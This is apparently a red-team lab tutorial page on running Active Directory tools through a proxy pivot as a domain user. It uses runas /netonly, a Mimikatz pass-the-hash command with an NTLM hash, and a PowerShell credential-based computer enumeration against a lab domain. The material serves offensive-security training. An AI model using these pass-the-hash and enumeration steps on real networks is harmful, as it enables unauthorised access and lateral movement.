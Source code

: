 To enable authentication to occur over the proxy, an application needs to be launched as a user from the target domain. This can be achieved via `runas /netonly` or on Mimikatz.

Let's use Active Directory Users and Computers (ADUC) as an example here:

The file responsible for launching ADUC is <mark style="color:yellow;">`dsa.msc`</mark>, which is actually just a snap-in for <mark style="color:yellow;">`mmc.exe`</mark>.&#x20;

**Open a Command Prompt window as a local admin, then launch&#x20;**<mark style="color:yellow;">**`mmc.exe`**</mark>**&#x20;via&#x20;**<mark style="color:yellow;">**`runas`**</mark>**:**

```
PS C:\Users\Attacker> runas /netonly /user:DEV\bfarmer mmc.exe
Enter the password for DEV\bfarmer:
Attempting to start mmc.exe as user "DEV\bfarmer" ...
```

#### How-to

Go to **File > Add/Remove Snap-in** (or Ctrl + M for short), add the ADUC snap-in, then click OK. &#x20;

Right-click on the snap-in, select **Change Domain**, enter <mark style="color:yellow;">`dev.cyberbotic.io`</mark> and click OK. &#x20;

You will see `Proxifier` begin to capture and relay traffic and ADUC loads the content. &#x20;

You may continue to drill down into the users and computers etc.

<figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

**To achieve the same with Mimikatz:**

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
```

**PowerShell cmdlets that support credential objects can also be used:**

```
PS C:\Users\Attacker> $cred = Get-Credential
PS C:\Users\Attacker> Get-ADComputer -Server 10.10.122.10 -Filter * -Credential $cred | select DNSHostName

DNSHostName
-----------
dc-2.dev.cyberbotic.io
fs.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io
web.dev.cyberbotic.io
sql-2.dev.cyberbotic.io
wkstn-1.dev.cyberbotic.io
```